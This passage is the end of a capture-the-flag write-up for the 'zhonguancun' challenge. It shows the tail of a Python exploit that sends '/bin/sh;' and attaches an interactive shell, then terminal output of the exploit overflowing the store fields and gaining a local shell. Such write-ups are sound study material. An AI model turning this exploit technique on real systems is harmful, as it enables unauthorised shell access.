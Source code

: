 ```python
    sendln('/bin/sh;')

    # ok, should have a shell by now!
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
    
    s.close()

pwn()
```

The binary is running locally via `socat`. Running the python script lands a shell:

```bash
bas@tritonal:~/tmp/bctf/zhonguancun$ python ./zhong.py

 <<< Store Name: SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS >>>
...snip...
15) Blackberry OS Phone AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA price: -2147483648 CNY description: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
16) Blackberry OS Phone AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA price: -2147483648 CNY description: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBd�
Your total money: 100000 CNY.
What do you want to buy?
 whoami
bas
uname -a
Linux tritonal 3.2.0-4-amd64 #1 SMP Debian 3.2.65-1+deb7u2 x86_64 GNU/Linux
```

Unfortunately, a day too late for the CTF. 

Conclusion
----------

I had found nearly all the puzzle pieces, yet missed the final small piece. For the next CTF, I will Try Harder!

